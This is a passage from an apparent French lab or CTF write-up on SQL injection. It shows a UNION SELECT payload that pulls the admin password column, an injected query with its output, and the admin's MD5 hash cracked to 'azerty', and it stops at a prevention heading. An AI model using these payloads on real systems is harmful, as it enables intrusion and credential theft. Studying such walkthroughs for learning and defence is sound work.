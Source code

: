 Résultat :
| id | titre                                 | contenu |
|----|---------------------------------------|---------|
| 0  | id,nom_utilisateur,motdepasse,email,... | 2       |

Les colonnes de la table `admin` sont `id`, `nom_utilisateur`, `motdepasse`, `email`, etc.

## 2.6. Obtenir le mot de passe de l'administrateur

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, motdepasse, 2 FROM `admin` ORDER BY id; #
```

**Explication :**
- **Contexte:** Accéder aux informations d'identification sensibles.
- **Objectif:** Obtenir le mot de passe de l'administrateur de la table `admin`.
- **Fonctionnement:** Utilisation de `UNION SELECT` pour extraire la colonne `motdepasse`.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, motdepasse, 2 FROM `admin` ORDER BY id;
```

Résultat :
| id | titre          | contenu  |
|----|----------------|----------|
| 0  | Motdepasse123  | 2        |



## 2.7. Obtenir le mot de passe de l'administrateur

![image](https://github.com/user-attachments/assets/bc3608ec-1077-4421-88d5-d0cc2bc79cde)

![image](https://github.com/user-attachments/assets/5ef8d1c5-525f-44f7-85c3-cf07bf5e7f5a)

Le hash du mot de passe de l'administrateur est `ab4f63f9ac65152575886860dde480a1`.

![image](https://github.com/user-attachments/assets/b4ce0da6-7921-475b-b6ad-7e1d13ca4f32)

Le mot de passe de l'administrateur est `azerty`.

![image](https://github.com/user-attachments/assets/03aa570a-3790-41f7-a3fb-067b8396f4da)



## Sécurité et Prévention
